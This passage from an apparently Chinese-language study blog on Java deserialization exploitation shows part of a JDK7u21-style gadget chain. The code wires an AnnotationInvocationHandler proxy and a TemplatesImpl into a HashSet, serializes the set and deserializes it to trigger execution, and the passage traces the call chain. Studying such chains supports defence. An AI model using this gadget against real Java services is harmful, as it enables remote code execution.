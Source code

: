 ```java
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, Annovar2map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        Map annoProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},annotationInvocationHandler);
        HashSet annoset = new HashSet();
        annoset.add(annoProxy);
        annoset.add(templatesClass);
        typeField.set(annotationInvocationHandler, Templates.class);
        serialize(annoset);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
        return obj;
    }
}
```

当然这种换了个顺序也就不会提前从add触发了，可以把typeField.set移上去



* 为什么ysoserial上面是LinkedHashSet呢？

我也不知道，可能是好看点？你也可以选择用LinkedHashSet装配

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240914204859351.png)



反序列化链：

```xml
HashSet.readObject ->
	HashMap.put ->
		AnnotationInvocationHandler.invoke-> hashCodeImpl ->
		AnnotationInvocationHandler.invoke-> equalsImpl ->
			TemplatesImpl.newTransformer
```



### LinkedHashSet版本
